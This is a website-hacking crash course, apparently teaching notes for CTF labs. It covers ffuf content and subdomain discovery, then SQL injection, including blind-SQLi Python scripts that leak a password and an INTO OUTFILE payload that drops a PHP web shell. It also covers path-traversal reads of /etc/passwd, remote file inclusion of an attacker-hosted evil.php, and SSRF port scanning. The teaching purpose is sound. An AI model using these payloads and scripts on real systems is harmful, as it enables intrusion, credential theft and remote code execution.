# Website Hacking Crash Course

Notes for the website hacking session. 

## Enumeration

When analyzing a site for vulnerabilities you should check the following things:

- Is the website framework a commercial product? If so maybe you can find source code for the framework online or public exploits against the running version. 
	- Public Exploits
	- Github for source code
- Is the website a custom website meaning it's not a commercial product? 
	- Manually analyze and fuzz website for vulnerabilities. 
- What programming language(s) does the website use? 
	- PHP, javascript, SQL, python, ... 
	- Different languages often result in different types of common vulnerabilities. For example, a PHP website that allows a user to upload a file can result in a vulnerability where a user can upload a PHP file which will execute if the user can access the uploaded file from the website allowing for remote code execution. Python websites however do not generally suffer from file upload vulnerabilities because the flask framework generally does not just execute arbitrary `.py` files. The python equivalent of a file upload vulnerability is probably template injection which is a similar type vulnerability that causes the python site to generate a malicious web page rather than having an attacker upload one. All this to say the attacks you will try will depend on the programming language the website is running on and you attack different programming languages differently. If a site is running SQL then it makes perfect sense to try SQL injection attacks against the site, but other database programming languages might not suffer from injection type attacks. So when you attack a website it is often a good idea to google common vulnerabilities specific to the running programming language(s) to get ideas for things to try. 
- Is there any sensitive information on the website itself ? Always check source code because programmer error can often leak sensitive information through comments or hard coded values. 

### Content Discovery

If the website is a commercial product then generally you don't need to manually do content discovery. You can generally google the website structure based on the framework. 

If the site is a custom website then you will likely want to perform manual enumeration to discover web pages. 

- Does the site have a `robots.txt` or any site map files that give you more information about the content on the website. 



The `robots.txt` is a file that tells google not to display certain web pages that belong to the website in search results. Anything with the `Disallow` means google will not display those pages in search results, but you can still access them manually. In the above example we see that `ctf_challenges` is not to be shown in search results. From the attackers perspective we can use things like the `robots.txt` to discover more content on the site that we can potentially attack. In this case we see that there is a `ctf_challenges` directory so we can go there and potentially find sensitive information, login pages, or content that can be exploited to gain access to more sensitive information. Not all websites have `robots.txt` files, and `robots.txt` files are not the only types of files that have information about content on the website. `sitemap.xml` for example is another file that contains information about content on a site, but unlike `robots.txt` which generally tells google about pages they don't want showing up in search results the `sitemap.xml` contains pages that the site wants google to find quickly. 

- Manually fuzzing the site for content. 

You can also see if you can discover web pages on a website manually through fuzzing. The way this works is you have a `wordlist` of common web page names or directory names  for example, `index.php`, `login.php`, `assets`, `robots.txt`, etc. and you manually check if the website has any pages with these file or directory names. 

Fuff is a good tool for this. 
```bash
ffuf -u 'http://192.168.6.133/FUZZ' -w /usr/share/wordlists/dirb/common.txt
```

What this command is doing is it is taking in a `wordlist` file which is a file of words. 

Could be something like this: 
```
index.php
index.html
login.php
logout.php
robots.txt
info.php
```

The `fuff` tool iterates through the `wordlist` and replaces the `FUZZ` keyword with the current word and makes a request to the website and captures the response. And will basically make the following requests. 
```
http://192.168.6.133/index.php
http://192.168.6.133/index.hml
http://192.168.6.133/login.php
http://192.168.6.133/logout.php
http://192.168.6.133/robots.txt
http://192.168.6.133/info.php
```

If a web page exists on the website with that file name then we should expect a to receive a `200` response and `fuff` will output a list of all the pages it finds. 

```
ffuf -u 'http://192.168.6.133/FUZZ' -w /usr/share/wordlists/dirb/common.txt                              

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.6.133/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10703, Words: 3427, Lines: 369, Duration: 3ms]
index.html              [Status: 200, Size: 10703, Words: 3427, Lines: 369, Duration: 1ms]
info.php                [Status: 200, Size: 77097, Words: 3733, Lines: 880, Duration: 3ms]
.hta                    [Status: 403, Size: 318, Words: 21, Lines: 10, Duration: 400ms]
.htpasswd               [Status: 403, Size: 318, Words: 21, Lines: 10, Duration: 445ms]
robots.txt              [Status: 200, Size: 40, Words: 3, Lines: 3, Duration: 0ms]
.htaccess               [Status: 403, Size: 318, Words: 21, Lines: 10, Duration: 468ms]
server-status           [Status: 403, Size: 318, Words: 21, Lines: 10, Duration: 0ms]
:: Progress: [4614/4614] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

We can see based on the results we found the site has found 3 web pages: 
- `info.php` 
- `index.html`
- `robots.txt`

So knowing this we know the website uses `php` and we can look at the `robots.txt` for additional web pages to attack. 

There are lot's of `wordlists` that have been generated to assist hackers in content discovery. The following `github` repository contains great `wordlists` for these types of attacks, but also `wordlists` for other attacks as well. 

- https://github.com/danielmiessler/seclists


The most common thing to fuzz in a CTF challenge or pentest is website API. Generally an API looks like `/api/v1/` followed by a specific API. 

Simple example you might fuzz a sites API and find there is an API for users and products. 
```
/api/v1/products
/api/v1/users
```

You may be able to query the `users` API for user information. 

```
/api/v1/users/<username>
```

In this case you can use a `wordlist` of common usernames or just people names and maybe you can discover sensitive user information. 

```bash
ffuf -u 'http://target.com/api/v1/users/FUZZ' -w usernames.txt
```

### Domains and Subdomains

If you are attacking a domain let's make one up `willcorp.com` you may want to check if the domain has any subdomains. 

Structure
```
subdomain.domain.topleveldomain
```

So in `willcorp.com` `willcorp` is the domain name and `.com` is the top level domain. 

But `willcorp` might have a bunch of websites associated with it. This is where subdomains come in. `willcorp.com` might be the companies public facing website for the general public to access, but it might also want an employee portal. In this case there may be an employee website with the subdomain `employee.willcorp.com`. Or the company might have an email server at `email.willcorp.com`. The point is subdomains are another thing an attacker can fuzz to discover additional websites to attack that are part of a domain. 

Here is an example of trying to fuzz subdomains on a hack the box challenge. 
```bash
ffuf -u 'http://silentium.htb/' -w subdomains-top1million-20000.txt -H 'Host: FUZZ.silentium.htb' -fs 178
```

- -H to add header information to the request in this case `Host: FUZZ.silentium.htb` and the `FUZZ` keyword will be replaced with the words in the `subdomains-top1million-20000.txt` `wordlist`
- -fs 178 is a filter to filter out responses that are 178 bytes in size. This is added because when fuzzing domain names we generally get `200` responses as false positives which usually result in an error page or just loading the default domain page. So you will usually just add a filter to filter the false positives out since they all respond with the same size response. In this case all the false positives has 178 bytes in size so I filtered them out with the `-fs`. 

One final note. In CTF competitions you will likely be attacking a target on a virtual network. In this case you will likely need to add entries to your `/etc/hosts` file because `DNS` servers will be unable to find the target. 

For example, lets say you were attacking `willcorp.com`, but `willcorp.com` was just a website running on a box locally on your network on 192.168.6.133 for example. You would simply add an entry to your `/etc/hosts` file so your machine knows what IP address to send requests to when you are going to `willcorp.com`

```
192.168.6.133 willcorp.com
```

If you discover any subdomains you will also want to enter those into your `/etc/hosts` file.

Let's assume for this example will corp has 3 sites all at IP 192.168.6.133
- email.willcorp.com
- support.willcorp.com
- willcorp.com

You would enter the following into your `/etc/hosts` file. 
```
192.168.6.133 email.willcorp.com support.willcorp.com willcorp.com
```

In a real pentest if you are attacking a real website you generally don't need to modify your `/etc/hosts` file because DNS servers will likely be able to perform DNS resolution to find the sites you are looking for. You only need to update the `/etc/hosts` if DNS can't find the sites, and this is generally the case in CTF competitions because the sites are just virtual targets on a local network. 


## Commercial Products, Opensource Frameworks, and Other Common Web frameworks

There are lot's of commercial products and opensource products out there made to make making and managing websites easier. Wordpress is a common example of a popular framework. If you find you are attacking a well known solution like Wordpress you should always check the version of Wordpress the site is running and see if there are any known public vulnerabilities or exploits against that version. Wordpress historically has had many vulnerabilities so much so that there is a dedicated vulnerability scanner called `wpscan` that can be used to scan a Wordpress site for vulnerabilities. 

So always make sure to see if there are any public exploits available against the site you are attacking. 


## Common Vulnerabilities

In this section we will cover a few vulnerabilities to to demonstrate how websites can be attacked. This is by no means a comprehensive list. There are far too many website frameworks, programming languages, and attack vectors to cover them all. 

This crash course will cover:
- SQL Injection
- File Inclusion
- Command Injection

### OWASP Top 10

You should familiarize yourself with the OSAWP Top 10 as it is a project that keeps track of the most critical web application security risks each year.  The project covers the most common development failures that developers make that lead to websites getting exploited and also covers mitigation strategies developers can use to secure their websites. 

- https://owasp.org/projects/top-ten


### SQL Injection

SQL Injection is a common vulnerability found in CTF challenges. It is a type of injection vulnerability that affects websites that use SQL. An injection vulnerability is a type of vulnerability where a website fails to sanitize user input and as a result causes the website to interpret the input as code, commands, or instructions that cause the website to execute commands/code that it should not perform. In this case SQL injection occurs when a website has been coded incorrectly such that the website generates an SQL query using user provided input and the user provided input changes the query to execute a different query then the one the developer intended. 


Consider the following code:

Let's assume a website has something goofy like this. 
```php
<?php

$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password';";

$result = $conn->query($query);

if ( $result->num_rows > 0 ) 
{
   login(); // login user exists
}
else 
{
   error(); // error invalid credentials
}
?>
```

So what the developer is trying to do is query the database to check if a user exists given a username and password and if so will log them in. Otherwise, the developer will throw an error of some kind saying invalid credentials or something like that. There are additional problems with this setup such as the password being stored in `plaintext` in the database, but we will ignore those flaws for now an just focus on the SQL injection issue. 

So the developer want to execute

```sql
select * from users where username = "<username>" and password = "<password>";
```

So let's say a valid user exists with `admin:admin` in the database. 

```sql
select * from users where username = "admin" and password = "admin";
```

The above should return a valid row from the database and log the user in. Logically this makes sense, and the website will do just that. 

The issue is the website is generating the query string on the fly with user provided input, and the user provided input is being placed directly into the query string. 

This means an attacker can modify the query by sending in special inputs. 

For example, let's say the user enters `qwerty' OR ''='` as input for the password field, and `admin` as input for the username field. 

```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password';";
```

The query would become the following. 

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'qwerty' OR ''='';
```

Notice the `''=''` will evaluate to TRUE. A TRUE going into an OR statement will always result in TRUE. So effectively the attacker has changed the query to. 

```sql
SELECT * FROM users WHERE username = 'admin' AND TRUE;
```

So now as long as a user exists in the `users` table with the username `admin`. The query will grab the row, and the website will log the user in. This means that in this example, an attacker can log into the website as admin without needing to know the `admin` users password. 


What you can do with SQL Injection depends on what the type of query is and where the query is being used. In the above example, the query was being used as part of a login routine so the injection allowed us to bypass authentication. 

In general these are the 5 main things SQL Injection can potentially allow an attacker to do: 
- Leak data from the database
- Insert data into the database
- Delete data from the database
- Bypass authentication
- Gain Remote Code/Command Execution

If an `INSERT` SQL statement is vulnerable you SQL injection you can potentially insert new entries into the database. In the context of user creation this could allow an attacker to insert a new user with administrative privileges. 

If a `DELETE` SQL statement is vulnerable to SQL injection then an attacker could potentially delete sensitive information from the database. 

If a `SELECT` SQL statement is vulnerable to SQL injection then an attacker could potentially leak all the information out of the database. But also depending on the context an attacker could bypass authentication on login, or even perform remote code execution or arbitrary file upload depending on the type and configuration of the SQL database. 


#### Example

In this example, we have a CTF challenge where you can enter a username and see if the user exists in the database. The catch is the website won't actually tell you the result of the query. 





Site `php` code: 
```php
<?php
   if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $username = $_POST['username'];
      $debug = isset($_POST['debug']) && $_POST['debug'] === 'yes';

      // Database connection details
      $servername = "localhost";
      $dbname = "appdb";
      $dbusername = "appuser";
      $dbpassword = "apppass";

      $conn = new mysqli($servername, $dbusername, $dbpassword, $dbname, 3306);

      if ($conn->connect_error){
         echo "<p>Error: Couldn't connect. </p>".$conn->connect_error;
      } else {
         $query = "SELECT * FROM users WHERE username = '$username';";
         
         if ($debug) {
            echo "<p>DEBUG:</p>";
            echo "<p>'$query'</p>";
         }

         $result = $conn->query($query);
         
         //if ($result->num_rows > 0){
         //   echo "<p>User exists</p>";
         //} else {
         //   echo "<p>User Does Not Exist</p>";
         //}
      }
      $conn->close(); 
   }
   ?>

</body>
</html>
```

We can see the code is vulnerable to SQL injection since the user input is not sanitized and is being put directly into the query. 

```php
$query = "SELECT * FROM users WHERE username = '$username';";
```

But we also see that we don't get to see what the result of the query is because these lines are commented out. 

```php
//if ($result->num_rows > 0){
//   echo "<p>User exists</p>";
//} else {
//   echo "<p>User Does Not Exist</p>";
//}
```

In the case where you have SQL Injection, but the website doesn't show you the query result you can use a technique called Blind SQL Injection. Blind SQL Injection is a technique that lets you leak data from the database by causing the SQL query to respond either quickly or slowly depending on if the result of the query was true or false. A more common technique is error based sql injection which is where the result of the query will either cause the site to throw an error or not which let's you deduce the result of the query. In this case the site doesn't throw an error and doesn't give us any visual information so we will rely on messing with the time it takes the query to process to let us extract information. 


In blind SQL injection we want to do something like this. 
```sql
SELECT * FROM users WHERE username = 'admin' AND SLEEP(10);
```

We basically want to insert a `SLEEP()` command or some command that will take a bit of time to complete. This way when the query gets executed, in the above example, if there is a user with the username admin then the query will hang for 10 seconds. This means that if we as the attacker see that the website hangs in coming back with a response then we know a user does exist with the username admin. If the website responds instantly then we know there is no user with the username admin. 

So this is the vulnerable code. 
```php
$query = "SELECT * FROM users WHERE username = '$username';";
```

We can use the following payload to essentially enumerate the users table. 

```
noexist' OR username like binary 'a%' AND SLEEP(10) AND ''='
```

Which would cause the query to change to 

```sql
SELECT * FROM users WHERE username = 'noexist' OR username like binary 'a%' AND SLEEP(10) AND ''='';
```

Let's break this down. 

We insert the `noexist'` to simply finish off the `SELECT * FROM users WHERE username = 'noexist'` so we can add additional commands. The `username like binary 'a%'` is an SQL instruction that says is there a username that starts with lower case "a". The `SLEEP(10)` means that if there is a username that starts with `a` then the response will hang for 10 seconds. The final `''='` is inserted to close the single quote `'` from the `$username';` so we don't cause a syntax error. 

All together we have changed the query to be select everything from the users table where the username is "noexist" or the username starts with the letter "a" and if the username starts with the letter "a" then sleep for 10 seconds. 

Note: `SLEEP()` only works because we are attacking a MySQL server. If the target was running a different SQL database like SQLite then we can't use `SLEEP` because SQLite does not have a `SLEEP()` function. So if this is the case then you generally use some other function or command native to SQLite that can cause a response hang. SQL Injection is different for different SQL databases. Some common SQL databases include MySQL, SQLite, and MSSQL. So you will need to google syntax and available functions when crafting a payload against a specific targets. 


In this challenge the SQL database only has one user in the users table. So we can write a python script to brute force the username. 

```python
import requests
import time

# url of vulnerable webpage 
url = "http://192.168.6.133/ctf_challenges/sql_challenge.php"

# characters to brute force
# note normally we would also include 
# uppercase, numbers, and special characters
# but this challenge just makes the username
# all lowercase letters
characters = "abcdefghijklmnopqrstuvwxyz"

username = ""

flag = True
while flag == True:
    flag = False
    # test each character to see if it is the next character
    # in the username
    for c in characters:
        test_case = username + c
        data = { "username" : f"noexist' OR username LIKE BINARY '{test_case}%' AND SLEEP(3) AND ''='" }
        start = time.time()
        response = requests.post(url, data=data)
        stop = time.time()

        total_time = stop - start

        # if the response hung we have found a new character
        if (total_time > 2):
            username = username + c
            print(f"Found Characters: {username}")
            flag = True # reset flag so we will loop again
            break

print(f"User: {username}")
```

We can run the exploit to leak the username from the users table. 

```
$ python3 sql_find_user.py    
Found Characters: m
Found Characters: mr
Found Characters: mrr
Found Characters: mrro
Found Characters: mrrob
Found Characters: mrrobo
Found Characters: mrrobot
User: mrrobot
```

We can extend this exploit now that we have found the username to also find the users password. 

```python
import requests
import time

url = "http://192.168.6.133/ctf_challenges/sql_challenge.php"
characters = "abcdefghijklmnopqrstuvwxyz"

username = "mrrobot"
password = ""

flag = True

while flag == True:
    flag = False
    for c in characters:
        test_case = password + c
        data = { "username" : f"{username}' AND password LIKE BINARY '{test_case}%' AND SLEEP(3) AND ''='" }
        start = time.time()
        response = requests.post(url, data=data)
        stop = time.time()

        total_time = stop - start

        if (total_time > 2):
            password = password + c
            print(f"Found Characters: {password}")
            flag = True
            break

print(f"Password: {password}")
```

```
$ python3 sql_find_password.py 
Found Characters: w
Found Characters: wo
Found Characters: wor
Found Characters: worl
Found Characters: world
Found Characters: worlds
Found Characters: worldsg
Found Characters: worldsgr
Found Characters: worldsgre
Found Characters: worldsgrea
Found Characters: worldsgreat
Found Characters: worldsgreate
Found Characters: worldsgreates
Found Characters: worldsgreatest
Found Characters: worldsgreatesth
Found Characters: worldsgreatestha
Found Characters: worldsgreatesthac
Found Characters: worldsgreatesthack
Found Characters: worldsgreatesthacke
Found Characters: worldsgreatesthacker
Password: worldsgreatesthacker
```

You get the idea. SQL Injection on a select statement generally can give an attacker the ability to leak the entire database. It just might take awhile and lot's of queries. But it can be done even if the website does not give visual information. If the website can give visual information or even better gives the query results directly on the web page then an attacker can leak the database contents much faster and with fewer queries. 

#### SQL Injection for remote code execution

So it is possible that SQL Injection can lead to remote code/command execution. In this example, we can abuse SQL to perform arbitrary file upload. Since the website is a `php` website this means we can upload a `php` file to get remote code execution on the target. 

This is the vulnerable query in the `php` code and we know the target is using MySQL. 
```php
$query = "SELECT * FROM users WHERE username = '$username';";
```

MySQL has a `INTO OUTFILE` feature that can write the output of queries into a file if enabled. Therefore, if the site has `INTO OUTFILE` enabled and write permissions on any directory accessible from the website we can upload a `php` file onto the target to get remote code execution. 


We would like to try the following. 
```sql
SELECT * FROM users where username = 'admin' UNION SELECT '<?php echo system(\$_GET["c"]);?>', null, null INTO OUTFILE '/var/www/html/ctf_challenges/shell.php';
```

This command basically says select everything from the users table where username is admin and select the string `<?php echo system(\$_GET["c"]);?>` into a file called `shell.php` and write that to `/var/www/html/ctf_challenges/`. We add the two other `null` values because a `UNION SELECT` only works if the number of fields matches the number of fields in the users table. In this case users table has 3 fields. One for username, one for password, and an id field. So the union select also must query 3 values. But SQL is nice and let's us add `null` values in the query. 


If the exploit works a file called `shell.php` will get uploaded with the following contents. 

```php
<?php echo system($_GET["c"]);?>, null, null
```

And if we go to that page we can execute system commands. 

If we enter the payload.

```
admin' UNION SELECT '<?php echo system(\$_GET["c"]);?>', null, null INTO OUTFILE '/var/www/html/ctf_challenges/shell.php
```

As the username. We notice that the exploit works and we create a `shell.php` file that we can execute system commands from. 

In this case we run the `whoami` command and see the website is running under the `www-data` user. I like to use the `whoami` command because it works on both Linux and Windows. 
![[shell.php_screenshot.png]]

From this point if this was a pentest or hackthebox challenge you could execute a command to get a reverse shell to get onto the box. 


### File Inclusion

#### Local File Inclusion

Local file inclusion is a type of vulnerability that occurs when a website allows you to access files on the target system that should be outside the scope of the website. 

Let's consider the LFI challenge page on the `ctf_trainer` website. 
![[file_inclusion_page_screenshot.png]]

We see that there is a `?page=` parameter in the url. As an attacker this is a field of interest and something we should try fuzzing to see what it can access. 

We can see that it currently points to `challenge.html` so the first thing we might want to try to see is if we can access other pages on the site through this `page` parameter. 

Let's see if we can access the `sql_challenge.php` page from the previous example. 


```
page=sql_challenge.php
```

And we can see that we can access the `sql_challenge.php` page. 


Now let's see if we can access files that should be outside the scope of the website. 

The first thing we can try is if directory traversal works. A common test for this is to see if we can read the `/etc/passwd` file. 

```
page=../../../../../../../etc/passwd
```

It turns out the site is vulnerable to directory traversal so we can read the `/etc/passwd` file. 


Reading the `/etc/passwd` file is useful to us as an attacker because we can see usernames of users on the system. 

In this case we see that the target has the following users:
- big_z
- cody_maverick
- chicken_joe
- ctf_dev
- root

In the context of a pentest having usernames is useful because at the very least we could try brute forcing passwords. 

Since the site is vulnerable to directory traversal it is possible that we could find sensitive information in other directories on the target since we can read any file on the target that the `www-data` user has permissions to read. There are many `wordlists` that have interesting files that are commonly found on Linux and Windows that you can try to fuzz for using a tool like `ffuf`. The `SecLists` `github` discussed earlier has `LFI` `wordlists` hackers can use when looking for sensitive information on a target via `LFI`. If the website is running with `root` privileges then you can read any file on the target. In this case it would be good to read `/etc/shadow` which contains users password hashes. You could then use a tool like `john` to try to crack the hashes of the users on the target. 


We can also check if the LFI works using absolute path. 

```
page=/etc/passwd
```



Again we see that we can access the `/etc/passwd` file so we can access files using absolute path as well as relative path. 

When testing a site remember to try different ways of accessing a local file. Sometimes relative path wont work, but absolute path will. Or sometimes you need to url encode the `../` to avoid filters since some sites try to filter out special characters like `../` to help defend against local file inclusion. 
```
../../../etc/passwd  # relative path

/etc/passwd          # absolute path

%2E%2E/%2E%2E/%2E%2E/etc/passwd # url encode

%2E%2E%2F%2E%2E%2F%2E%2E/etc/passwd # url encode
```

So try relative path, absolute path, url encode, and double url encode. If non of those methods work then the website is probably not vulnerable to `LFI`. But you should also google `LFI` techniques as well to make sure you try as many things as possible before giving up. 


#### Remote File Inclusion

Remote file inclusion is like local file inclusion but instead of trying to access a local file we try to access a file on a different website. 

In this case the target site is running `php`. If the site is vulnerable to `RFI` an attacker can trick the site into loading a malicious `php` page on the attackers server. 


In this example, my attack machine is on 192.168.6.128. 

I can create a `shell.php` in my local directory and spin up an http server using python. 



Now on the target I will see if I can load my `evil.php` page using the `page=` parameter on the target website. 

If the site has remote file inclusion turned on and the site is vulnerable we can cause the target to load the `evil.php` page which will allow us to execute system commands on the target. 


```
page=http://192.168.6.128:8080/evil.php
```

It turns out the target is vulnerable to `RFI` and we can abuse this to get code execution. 



#### Server Side Request Forgery 

Server Side Request Forgery is similar to `RFI`, but not quite the same. In this case the target has a website running on local host that cannot be accessed from the internet or over the network. However the site suffers from an `RFI` vulnerability which means it can likely be used to access sites running on local host because the request will originate from the target website which is the local machine. 


So first thing we want to try is to check if there are any sites running on local host.

We can use `ffuf` to brute force all the ports on local host to see if there is any website running. 
```bash
ffuf -u 'http://192.168.6.133/ctf_challenges/fi_challenge.php?page=http://127.0.0.1:FUZZ/' -w <(seq 1 65535) -fs 0
```

```
$ ffuf -u 'http://192.168.6.133/ctf_challenges/fi_challenge.php?page=http://127.0.0.1:FUZZ/' -w <(seq 1 65535) -fs 0 


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.6.133/ctf_challenges/fi_challenge.php?page=http://127.0.0.1:FUZZ/
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

80                      [Status: 200, Size: 10703, Words: 3427, Lines: 369, Duration: 886ms]
8080                    [Status: 200, Size: 239, Words: 36, Lines: 17, Duration: 28ms]
:: Progress: [65535/65535] :: Job [1/1] :: 245 req/sec :: Duration: [0:00:20] :: Errors: 2 ::
```

After running the `ffuf` command we find there is a website running on port `8080` on localhost. We also see there is a website on port `80`, but that's the site we are already attacking so it's not new information. 

So let's access the site on port `8080` and see what we find. 

```
page=http://127.0.0.1:8080/
```



We see that there is some `Admin API` page. And this is another page we can attack or get sensitive information from. It looks like this page has a flag so we can access it. 

```
page=http://127.0.0.1:8080/api.php?target=flag
```

